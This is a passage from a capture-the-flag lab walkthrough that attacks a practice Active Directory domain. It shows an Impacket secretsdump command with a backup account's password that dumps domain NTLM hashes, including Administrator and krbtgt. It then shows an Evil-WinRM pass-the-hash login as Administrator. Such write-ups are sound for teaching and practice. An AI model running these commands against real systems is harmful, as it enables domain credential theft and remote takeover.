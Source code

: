 ##### For all users:

```
crazyeights@kali:~/impacket/examples$​ python secretsdump.py -just-dc spookysec.local/backup:backup2517860@10.10.105.247
Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e4876a80a723612986d7609aa5ebc12b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
(truncated)
[*] Cleaning up...
```

![](/assets/images/13/a10.png)

Using Evil-WinRM for remote access:

```
crazyeights@kali:~/evil-winrm-master$​ evil-winrm -i 10.10.105.247 -u Administrator -H e4876a80a723612986d7609aa5ebc12b
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
```

### Task 8: Flags
